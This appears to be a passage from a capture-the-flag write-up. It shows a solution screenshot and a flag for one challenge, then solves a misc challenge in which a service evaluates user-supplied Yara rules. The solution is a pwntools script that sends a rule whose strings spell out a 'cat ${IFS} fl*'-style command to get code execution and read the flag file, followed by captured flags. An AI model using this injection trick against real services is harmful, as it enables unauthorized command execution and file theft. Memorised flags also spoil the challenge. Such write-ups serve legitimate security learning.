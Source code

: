 Solution:
![totally-hidden-Solution](https://github.com/user-attachments/assets/d14baf68-f781-4b09-94cf-4eaf125d3d8c)

**Flag : <span style="color:rgb(60, 179, 113)"> {% raw %}ctf{d1f64b9e60c550034d6daf2a8170e36bd70ddc6def9f34efc951c0946b665316}{% endraw %}</span>**

### iarasi (Misc)
Description: 
```
hack this service
```

The challenge was a service that allowed us to send a Yara rule and it returned the result. I used a Yara rule to get RCE and read the flag.

Solution:
```python
from pwn import *

context.log_level = 'debug'
HOST = "35.198.97.185:32705".split(":")
r = remote(HOST[0], HOST[1])

yara = """
rule ExtractText
{
    strings:
        $c = "c"
        $a = "a"
        $t = "t"
        $d = "$"
        $aa = "{"
        $I = "I"
        $F = "F"
        $S = "S"
        $ab = "}"
        $f = "f"
        $l = "l"
        $s = "*"

    condition:
        $c or $a or $t or $d or $aa or $I or $F or $S or $ab or $f or $l or $s
}
q


"""
r.sendline(yara)

r.interactive()
# ctf{bd07ea96ee394b654044c48dca65b994c205cc511c4b9f8a03bb471a8db9319e}
```
